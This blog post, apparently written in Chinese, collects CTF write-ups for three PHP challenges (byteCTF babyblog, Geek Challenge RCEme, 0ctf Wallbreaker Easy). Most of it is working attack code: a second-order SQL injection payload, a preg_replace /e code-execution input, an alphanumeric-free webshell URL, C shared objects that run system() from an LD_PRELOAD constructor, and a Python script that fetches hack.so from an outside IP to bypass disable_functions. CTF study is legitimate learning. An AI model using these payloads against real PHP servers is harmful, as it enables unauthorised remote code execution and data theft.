

贴几个参考链接

https://www.cnblogs.com/wfzWebSecuity/p/11213732.html

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

<!--more-->

# byteCTF babyblog

看首页


功能点

- 写博客
- 编辑博客
- 删除博客
- 查找字符串并替换


这个replace有点诡异, 需要``vip``身份, 看源代码关键的一步在``edit.php``中

```php
if(isset($_POST['title']) && isset($_POST['content']) && isset($_POST['id'])){
	foreach($sql->query("select * from article where id=" . intval($_POST['id']) . ";") as $v){
		$row = $v;
	}
	if($_SESSION['id'] == $row['userid']){
		$title = addslashes($_POST['title']);
		$content = addslashes($_POST['content']);
		$sql->query("update article set title='$title',content='$content' where title='" . $row['title'] . "';");
		exit("<script>alert('Edited successfully.');location.href='index.php';</script>");
	}else{
		exit("<script>alert('You do not have permission.');history.go(-1);</script>");
	}
}
```

这里存在一处二次注入, 将原来的文章选出来后将他的title不经过addslashes直接拼接进了update语句中.

```
update users set isvip=1 where username='ch3n9w'

';set @a=0x757064617465207573657273207365742069737669703d3120776865726520757365726e616d653d2763683473657227;prepare kk from @a;execute kk;'
```


这样我就是vip了, 可以使用replace功能了, 这个在源码中其实就是``preg_replace``.

```php
$content = addslashes(preg_replace("/" . $_POST['find'] . "/", $_POST['replace'], $row['content']));
```

传入参数

```
find=/e%00
replace=phpinfo();
```

就执行成功了, 写一个shell进去先. 然后发现system类函数都被禁用了, 而且还有basedir限制, 在``init_set``被禁止的情况下, 可以使用``glob``协议

```php
if ($dh = opendir("glob:///*")) {while (($file = readdir($dh)) !== false) {echo "$file\n";}closedir($dh);}
```

发现根目录有``/readflag``和``/flag``, 接下来使用``LD_PRELOAD``来绕过``disable_function``的限制, 在``disable_function``中看到``mail``函数都被禁用了, 而且没有安装``imagemagick`` , 可以考虑使用``error_log``来触发, 问题是这题目在buuoj经过了魔改, /readflag不会直接给出flag而是给出了一道计算题, 回答正确之后才会给出flag, 寻找一个perl脚本来执行, 这是*ctf的一道题目的perl脚本

```perl
use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```

写入之后, 由hack.c编译一个hack.so, hack.c内容如下:

```c
#define  _GNU_SOURCE
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <signal.h>

void pwn(void) {
system("perl /var/www/html/exp.perl > /var/www/html/res 2>&1");
}

void getpid(){
  unsetenv("LD_PRELOAD");
  pwn();
}

```

最后执行

```
putenv("LD_PRELOAD=/var/www/html/payload.so");error_log("",1,"","");
```

就可以拿到flag了

# 极客大挑战 RCEme

```php
 <?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>

```

首先是个无字母数字shell

```
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=phpinfo()
```

很遗憾的发现system等函数都不能执行.

上蚁剑,但是很奇怪的不能直接用密码__来连接, 要这样连, 不然会有奇怪的东西显示 

```
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=eval($_POST[a])
```

......原来一定要eval么.....

然后发现根目录下有无读权限的flag和一个readflag二进制文件.

连上之后向/tmp目录下面写两个东西, 一个是本地生成的so文件, 

hack.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdio.h>

__attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/ch3n9w");
}
```

编译

```
gcc -shared -fPIC hack.c -o hack.so
```

拖上去就行了

ch3n9w.php

```
<?php

    putenv("LD_PRELOAD=/tmp/hack.so");
    mail("", "", "", "");
?>
```

最后包含代码去执行

```php
http://268a054e-42e7-45d6-a8ba-7f3e67a00d0a.node3.buuoj.cn/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=include("/tmp/ch3n9w.php")
```

``mail``函数产生进程的同时就会触发preload中的代码, 然后读输出中的flag就行了

# 0ctf Wallbreaker Easy

这道题目参考了小西师傅、一叶飘零和郭dalao学长的分享,真实地感觉自己的菜了。。。

在写脚本的过程中遇见了很多诡异的问题，先留着琢磨。

## 主要思路

利用``Imagick()``中会触发``php解释器向外开启系统进程``的方法，这里的思路是当传入``MPEG``格式类型的文件时候，为了转换格式会向外部环境请求并触发``ffmpeg``的调用，从而开启新的进程。在开启时，环境变量``LD_PRELOAD``会首先加载，而我们事先会将我们的``恶意共享文件hack.so在这个环境变量中指出来``，即``LD_PRELOAD={DIR}/hack.so``。hack.so共享文件由hack.c文件编译，其中调用了``__attribute__((constructor))``，该方法会在共享文件被加载的时候率先被执行，至于执行的代码，当然就是``/readflag > {dir}/flag``啦。主要代码如下，代码写法借鉴了郭大佬的脚本，虽然思路不一样，个人感觉dalao的思路更加直接明了。

脚本

```python
import requests
import base64

url = "http://111.186.63.208:31340/"
dir = "/tmp/ef757c06e983a137384378f47607abfa"

#the first time i do this ,i use format function 'format' to replace $dir but failed,then i used $dir and '%',worked ,after the flag went out ,the format problem seems to dispeare?
#the new Imagick('{filename}') beginning with no work,but didnot after replace'''to '"',also disapeared after sovled it
cmd = '''
<pre>hello???????<br><?php echo 'hello';?><br>
<?php
$dir = "{0}";
file_put_contents("{0}/hack.so",file_get_contents("http://207.148.64.125:80/hack.so"));
chmod("{0}/hack.so",0777);
putenv("LD_PRELOAD={0}/hack.so");
file_put_contents("{0}/ch3n9w.wmv","sssss");
file_put_contents("{0}/ch3n9w","");
$tocken = new Imagick('{0}/ch3n9w.wmv');
?>
</pre>
'''.format(dir)

#why the command line been executed can not be more than 2 in my script?cause the include will cause error
payload = '''
file_put_contents('%s/evil',base64_decode("%s"));
include "%s/evil";
'''%(dir,base64.b64encode(cmd),dir)

print(requests.post(url, data={'backdoor': payload }).content)

print requests.post(url,data={'backdoor':"print_r(scandir('%s'));"%dir}).content
print requests.post(url,data={'backdoor':"echo file_get_contents('%s/ch3n9w');"%dir}).content
```

脚本写得很烂，注释部分可以忽略，是我在写的过程中遇到的小问题。

然后服务器上面的``hack.c``文件如下：

```c
#include <stdlib.h>
#include <stdio.h>
__attribute__ ((__constructor__)) void angel (void){
    system("/readflag > /tmp/ch3n9w");
}
```

使用命令``gcc --share -fPIC hack.c -o hack.so``命令来编译共享文件。在服务器目录下面开启``python -m SimpleHTTPServer 80``，并运行上述python脚本，即可看到flag。



> ps:每个人的目录会不定时被服务器清空


> 如果LD_PRELOAD不行可以考虑上通杀马
>
> https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php
